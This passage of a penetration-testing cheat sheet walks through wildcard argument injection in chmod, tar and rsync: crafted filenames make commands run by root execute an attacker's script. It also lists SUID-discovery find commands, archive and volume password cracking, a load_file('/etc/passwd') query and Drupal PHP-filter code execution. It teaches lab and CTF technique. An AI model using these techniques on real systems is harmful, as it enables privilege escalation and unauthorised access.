  What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set tomode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in	all subdirectories recursively.
   

 * **Tar arbitrary command execution**
  
  Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. 		Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

  :: 

    [root@defensecode public]# tar cvvf archive.tar *

  So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

  :: 

    --checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
    --checkpoint-action=ACTION : execute ACTION on each checkpoint

  There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

  Check the following directory:

  :: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Now, for example, root user wants to create archive of all files in current directory.

  :: 

    [root@defensecode public]# tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

  Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

  :: 

    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.

  :: 

    [root@defensecode public]# cat shell.sh
    /usr/bin/id

  So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
   

 * **Rsync arbitrary command execution**

  Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

  Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

  Interesting rsync option from manual:

  :: 

    -e, --rsh=COMMAND       specify the remote shell to use
    --rsync-path=PROGRAM    specify the rsync to run on remote machine			

  Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

  :: 

    # rsync -t *.c foo:src/


  Directory content:

  :: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

  Now root will try to copy all C files to the remote server.

  :: 

    [root@defensecode public]# rsync -t *.c foo:src/

    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

  Let's see what happened...

  :: 

    [root@defensecode public]# ls -al
    total 76
    drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

  There were two files owned by user 'leon', as listed below.

  :: 

    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

  After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

  :: 

    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

  If we check its content, following data is found.

  :: 

    [root@defensecode public]# cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

  Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

  :: 

    [root@defensecode public]# cat shell.c
    /usr/bin/id > shell_output.txt

Privilege esclation from g0tm1lk blog
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID

 ::

   find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
   find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
   find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

   find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
   for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

   # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
 
* Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm

 ::

   find / -writable -type d 2>/dev/null      # world-writeable folders
   find / -perm -222 -type d 2>/dev/null     # world-writeable folders
   find / -perm -o w -type d 2>/dev/null     # world-writeable folders

   find / -perm -o x -type d 2>/dev/null     # world-executable folders

   find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

* Any "problem" files? Word-writeable, "nobody" files

 ::

   find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
   find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files


Tips and Tricks
---------------

* run-parts 

 run-parts runs all the executable files named, found in directory directory. This is mainly useful when we are waiting for the cron jobs to run. It can be used to execute scripts present in a folder.

 :: 

  run-parts /etc/cron.daily

* Sudoers file: 

 If the sudoers file contains: 
	
 :: 

   secure\_path 
  Path used for every command run from sudo. If you don't trust the people running sudo to have a sane PATH environment 	variable you may want to use this. Another use is if you want to have the “root path” be separate from the “user path”. Users in the group specified by the exempt\_group option are not affected by secure\_path. This option is not set by default.

  env\_reset If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO\_\* variables. Any variables in the caller's environment that match the env\_keep and env\_check lists are then added, followed by any variables present in the file specified by the env\_file option (if any). The contents of the env\_keep and env\_check lists, as modified by global Defaults parameters in sudoers, are displayed when sudo is run by root with the -V option. If the secure\_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

  mail\_badpass Send mail to the mailto user if the user running sudo does not enter the correct password. If the command the user is attempting to run is not permitted by sudoers and one of the mail\_all\_cmnds, mail\_always, mail\_no\_host, mail\_no\_perms or mail\_no\_user flags are set, this flag will have no effect. This flag is off by default.

	
* XSS/ HTML Injection:

  The below will redirect the page to google.com

 ::
 
  <META http-equiv=“refresh” content=“0;URL=http://www.google.com”>

* It is important to check .profile files also. As it might contain scripts which are executed when a user is logged in. Also, it might be 	      	    important to see how a application is storing password.

* If OPcache engine seemed to be enabled ( check from phpinfo.php file ) which may allow for exploitation (see the following article)https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

* Identification of OS:
	
 :: 

  cat /etc/os-release

  NAME="Ubuntu" VERSION="16.04 LTS (Xenial Xerus)" ID=ubuntu
  ID\_LIKE=debian PRETTY\_NAME="Ubuntu 16.04 LTS" VERSION\_ID="16.04"
  HOME\_URL="http://www.ubuntu.com/"
  SUPPORT\_URL="http://help.ubuntu.com/"
  BUG\_REPORT\_URL="http://bugs.launchpad.net/ubuntu/"
  UBUNTU\_CODENAME=xenial


* Java keystore file: 
   <https://www.digitalocean.com/community/tutorials/java-keytool-essentials-working-with-java-keystores> and <https://www.digitalocean.com/    	community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs#convert-certificate-formats>

* Cracking MD5 Hashes:  
   Try <https://crackstation.net/>


* Find files by wheel/ adm users.
  
 Remember, by default cewl generates a worldlist of one word. It by default ignore words in quotes. For example: if "Policy of Truth" is written in quotes. It will treat it as three words. However, what we wanted is to consider whole word between the quotes. By doing a small change in the cewl source code, we can get all the words in quotes, we also can remove spaces and changing upper to lower, we were able to create a small wordlist.

* When you see something like this "Nick's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

 :: 

   cat .htaccess 
   BrowserMatchNoCase "iPhone" allowed

   Order Deny,Allow 
   Deny from ALL 
   Allow from env=allowed 
   ErrorDocument 403 “<H1>Nick’s sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”

* Port 139 Open

 :: 

   smbclient -N -L 192.168.1.2 WARNING: The "syslog" option is deprecated
   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   kathy           Disk      Fred, What are we doing here?
   tmp             Disk      All temporary files should be stored here
   IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Server               Comment
   ---------            -------
   RED                  red server (Samba, Ubuntu)

   Workgroup            Master
   ---------            -------
   WORKGROUP            RED

   -N : If specified, this parameter suppresses the normal password promptfrom the client to the user. This is useful when accessing a service that does not require a password. -L\|--list This option allows you to look at what services are available on a server. You use it as smbclient
   -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you aretrying to reach a host on another network.


 If you want to access the share you might want to type

 :: 

   smbclient \\\\IP\\share\_name

 So, in the above example, it would be

 ::

   smbclient \\\\192.168.1.2\\kathy

 If port 139 is open, also run enum4linux, may be it would help get the user list
    
    
* curl

  :: 

    -k, --insecure
    (SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
    This makes all connections considered "insecure" fail unless -k, --insecure is used.

    -I, --head
    (HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.


* Port 69 UDP:

  TFTP

  :: 

   get or put file

	    
* Ruby Best way to get quoted words / phrases out of the text

  :: 

    text.scan(/"([^"]\*)"/)

    
* Convert all text in a file from UPPER to lowercase
	
  :: 

   tr '[:upper:]' '[:lower:]' < input.txt > output.txt


* Remove lines longer than x or shorter than x

  :: 

   awk 'length($0)>x' filename or awk 'length($0)

* In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in Breach 2)), we can upgrade it to meterpreter by using sessions -u

 :: 

   sessions -h
   Usage: sessions [options]
   
   Active session manipulation and interaction.

   OPTIONS:

   -u <opt>  Upgrade a shell to a meterpreter session on many platforms


* If you know the password of the user, however, ssh is not allowing you to login, check ssh\_config.

 ::

   ## Tighten security after security incident 
   ## root never gets to log in remotely PermitRootLogin no 
   ## Eugene & Margo can SSH in, no-one else allowed 
   AllowUsers eugene margo 
   ## SSH keys only but margo can use a password 
   Match user margo 
   PasswordAuthentication yes 	
   ## End tighten security
 
* Got a random string: Figure out what it could be? Hex encoded, base64 encoded, md5 hash. Use hash-identifier tool to help you.

* If we get a pcap file which contains 802.11 data and has auth, deauth and eapol key packets, most probably it's a packet-capture done using the wireless attack for WPA-Handshake. Use aircrack to see if there is any WPA handshake present.

 :: 

   13:06:21.922176 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.922688 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.923157 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.924224 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.924736 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.925723 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.933402 Probe Response (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit] CH: 11, PRIVACY
   13:06:21.933908 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.934427 Clear-To-Send RA:e0:3e:44:04:52:75 (oui Unknown) 
   13:06:21.991250 Authentication (Open System)-1: Successful
   13:06:21.992274 Authentication (Open System)-1: Successful
   13:06:21.992282 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.992795 Authentication (Open System)-2: 
   13:06:21.992787 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.994834 Assoc Request (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit]
   13:06:21.994843 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.996890 Assoc Response AID(1) : PRIVACY : Successful
   13:06:21.996882 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.011783 Action (e8:50:8b:20:52:75 (oui Unknown)): BA ADDBA Response
   13:06:22.012314 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.012827 BAR RA:e8:50:8b:20:52:75 (oui Unknown) TA:c4:12:f5:0d:5e:95 (oui Unknown) CTL(4) SEQ(0) 
   13:06:22.013330 BA RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.014874 CF +QoS EAPOL key (3) v2, len 117
   13:06:22.015379 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.030226 CF +QoS EAPOL key (3) v1, len 117
   13:06:22.030746 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.043034 CF +QoS EAPOL key (3) v2, len 175
   13:06:22.043026 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.054803 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056338 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056859 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.064514 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.065030 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.079878 Clear-To-Send RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.080901 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.110144 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station

* Transfer an image
	
 :: 

   base64 flair.jpg 
   Copy output 
   vi flair 
   Paste the clipboard 
   base64 -d flair > flair.jpg

* It's always important to find, what's installed on the box:

 :: 

   dpkg-query -l 

 or using wild cards

 :: 

   dpkg-query -l 'perl*'


* Password Protected File:
	  
 * ZIP File: run fcrackzip

  :: 

    fcrackzip -D -u -p /tmp/rockyou2.txt flag.zip

    -D, --dictionary:    Select dictionary mode. In this mode, fcrackzip will read passwords from a file, which must contain one password per line and should be alphabetically sorted (e.g. using sort(1)).
    -p, --init-password string :  Set initial (starting) password for brute-force searching to string, or use the file with the name string to supply passwords for dictionary searching.
    -u, --use-unzip: Try to decompress the first file by calling unzip with the guessed password. This weeds out false positives when not enough files have been given.

 * We can get the password hash of a password protected rar file by using rar2john

  :: 

    [root:~/Downloads]# rar2john crocs.rar
    file name: artwork.jpg
    crocs.rar:$RAR3$*1*35c0eaaed4c9efb9*463323be*140272*187245*0*crocs.rar*76*35:1::artwork.jpg

* Data-URI:
	
  <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics\_of\_HTTP/Data\_URIs>

* We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

 :: 

    ssh -D localhost:9050 user@host

    -D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.

 and 
	
 :: 
	
   proxychains4 remmina


* If you have sql-shell from sqlmap, we can use

 :: 
	
   select load_file('/etc/passwd');

* If you have a truecrypt volume to open and crack it's password, we can use truecrack to crack the password and veracrypt to open the truecrypt volume.

 :: 

   truecrack --truecrypt <Truecrypt File> -k SHA512 -w <Wordlist_File>

 and Veracrypt to open the file.


* Getting a reverse shell from:

 * Drupal: Now that we have access to the Drupal administration panel, we can gain RCE by enabling the PHP filter module. This will allow us to execute arbitrary code on the site by inserting a specifically crafted string into page content. After enabling the module, I proceed to allow code to be executed by all users under the configuration screen for the module.Once enabled we need to give permission to use it so in people -> permissions check "Use the PHP code text for. 
   
   Next I create a new block (by going to Blocks, under the Structure menu) with the following content. I make sure to select PHP code from the Text format drop down. Taken from <https://g0blin.co.uk/droopy-vulnhub-writeup/>
   Drupal settings file location: /var/www/html/sites/default/settings.php

* If the only port which is open is 3128, check for the open proxy and route the traffic via the open proxy.


